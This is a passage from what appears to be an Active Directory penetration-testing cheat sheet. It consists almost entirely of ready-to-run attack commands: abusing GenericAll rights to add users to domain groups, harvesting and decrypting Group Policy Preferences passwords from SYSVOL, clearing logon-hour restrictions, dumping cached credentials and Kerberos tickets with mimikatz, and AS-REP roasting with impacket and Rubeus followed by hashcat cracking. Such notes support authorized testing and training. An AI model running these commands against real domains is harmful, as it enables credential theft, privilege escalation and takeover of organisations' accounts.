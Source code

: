 ```cmd
PS C:\> Get-ObjectAcl -Identity <USERNAME>
PS C:\> Get-ObjectAcl -Identity "<GROUP>" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
PS C:\> Get-NetGroup "<GROUP>" | select member
PS C:\> net group "<GROUP>" <USERNAME> /add /domain
PS C:\> net group "<GROUP>" <USERNAME> /del /domain
```

#### Share Enumeration

```cmd
PS C:\> Find-DomainShare
PS C:\> ls \\<RHOST>\sysvol\<DOMAIN>\
PS C:\> ls \\<RHOST>\sysvol\<DOMAIN>\Policies\
PS C:\> cat \\<RHOST>\sysvol\<DOMAIN>\Policies\oldpolicy\old-policy-backup.xml
$ gpp-decrypt "+bsY0V3d4/KgX3VJdO/vgepPfsN1zMFTiQuyApgR92JE"
```

### User Handling

#### Reset Login Hours

```cmd
PS C:\> Set-ADUser -Identity "<USERNAME>" -Clear logonHours
```

or

```cmd
PS C:\> $bytes = [byte[]](0..20 | ForEach-Object { 255 })
```

```cmd
PS C:\> Set-ADUser -Identity <USERNAME> -Replace @{logonHours = $bytes}
```

### Credential Harvesting

#### Cached Credentials

```cmd
PS C:\> .\mimikatz.exe
mimikatz # sekurlsa::logonpasswords
PS C:\> dir \\<RHOST>\<SHARE>
mimikatz # sekurlsa::tickets
```

#### AS-REP Roasting

```console
$ impacket-GetNPUsers -dc-ip <RHOST> -request -outputfile hashes.asreproast <DOMAIN>/<USERNAME>
$ hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

```cmd
PS C:\> .\Rubeus.exe asreproast /nowrap
$ hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
